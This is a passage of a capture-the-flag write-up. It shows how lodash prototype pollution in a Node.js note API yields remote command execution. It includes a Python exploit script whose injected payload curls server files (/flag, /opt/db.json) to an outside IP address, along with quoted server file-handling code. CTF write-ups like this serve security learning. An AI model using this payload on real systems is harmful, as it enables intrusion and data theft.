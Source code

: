 It will execute those innocuous shell commands when visiting this API, but how to manipulate the hard-coded commands? The first thought comes to my mind is [javascript prototype polution](https://github.com/HoLyVieR/prototype-pollution-nsec18). If we can modify the prototype we can inject arbitrary command!

The only thing we can control is through the note API. It use `lodash` to merge the note with empty one. Then I search the lodash vulnerability and find [this](https://snyk.io/test/npm/lodash/4.17.4) interesting. It's just what we needed - Prototype Pollution.

So the rest is trivial. Pollute the command object and get RCE of the server

```python
#!/usr/bin/env python3                                                                                                 
import json
import requests

s = requests.session()
data= {
        "notedata": [{"__proto__": {"script-3" : "curl 140.112.31.105:1234 -F 'a=@/flag' -F 'b=@/opt/db.json'", }}],
}
r = s.post('http://162.243.23.15:8003/noteAPI/make_a_note', headers={'Content-Type': 'application/javascript+json'}, data=json.dumps(data))
r = s.get('http://162.243.23.15:8003/status')
print(r.text)
print(r.status_code)
```

The remote server seems to have no `nc`, so I use curl to send the files.

#### Falled Attempts

- Trying to bypass the endswith `.js` check:
```javascript
exports.fetch = function (req, res) {
    var file_path = req.params.path
    var arr = file_path.split('.');

    if (arr.length > 1) {
        if (arr[arr.length - 1] == 'js') {
            fs.readFile(config.js_dir + file_path, { encoding: 'utf-8' }, function (err, data) {
                if (!err) {
                    res.writeHead(200, { 'Content-Type': 'text/html' });
                    res.write(data);
                    res.end();
                } else {
                    res.setHeader('JS-Files', 'test.js')
                    res.send(err)
                    res.end();
                }
            });
        } else {
            res.send('Only .js files.');
            res.end();
        }
    }else{
        res.send('Only .js files.');
        res.end();
    }
}
```

